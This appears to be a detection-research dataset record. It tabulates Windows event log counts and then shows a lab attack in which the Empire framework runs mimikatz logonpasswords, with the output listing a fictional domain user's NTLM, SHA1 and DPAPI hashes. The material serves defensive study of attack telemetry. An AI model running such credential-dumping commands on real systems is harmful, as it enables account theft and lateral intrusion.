 | Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Registry value set (rule: RegistryEvent)               |             286 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Network connection detected (rule: NetworkConnect)     |             180 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | File created (rule: FileCreate)                        |              70 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Pipe Connected (rule: PipeEvent)                       |              57 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | RawAccessRead detected (rule: RawAccessRead)           |              24 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Process Create (rule: ProcessCreate)                   |              14 |
| Microsoft-Windows-Sysmon/Operational       | Microsoft-Windows-Sysmon            | Pipe Created (rule: PipeEvent)                         |               2 |
| Microsoft-Windows-PowerShell/Operational   | Microsoft-Windows-PowerShell        | Executing Pipeline                                     |            2426 |
| Microsoft-Windows-DNS-Client/Operational   | Microsoft-Windows-DNS-Client        | na                                                     |             373 |
| Microsoft-Windows-Bits-Client/Operational  | Microsoft-Windows-Bits-Client       | na                                                     |               4 |

## Empire Activity

```
usemodule credentials/mimikatz/logonpasswords*
execute
```

```
[*] Tasked 8BLV6USC to run TASK_CMD_JOB
[*] Agent 8BLV6USC tasked with task ID 2
[*] Tasked agent 8BLV6USC to run module powershell/credentials/mimikatz/logonpasswords
(Empire: powershell/credentials/mimikatz/logonpasswords) > Job started: CD6AR8
Hostname: IT001.shire.com / S-1-5-21-2511471446-1103646877-3980648787

  .#####.   mimikatz 2.1.1 (x64) #17763 Feb 23 2019 12:03:02
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # sekurlsa::logonpasswords

Authentication Id : 0 ; 84172714 (00000000:05045faa)
Session           : Interactive from 2
User Name         : Mmidge
Domain            : SHIRE
Logon Server      : HFDC01
Logon Time        : 3/19/2019 11:40:04 AM
SID               : S-1-5-21-2511471446-1103646877-3980648787-1119
	msv :	
	 [00000003] Primary
	 * Username : Mmidge
	 * Domain   : SHIRE
	 * NTLM     : b415baa073a14f81f8c89a2a384f4a68
	 * SHA1     : 85e07a118d7d6f0841ae1fa5061e4bbdfa24d3a7
	 * DPAPI    : 9375ed71838555731c26915707be9807
	tspkg :	
	wdigest :	
	 * Username : Mmidge
	 * Domain   : SHIRE
	 * Password : (null)
	kerberos :	
	 * Username : Mmidge
	 * Domain   : SHIRE.COM
	 * Password : (null)
```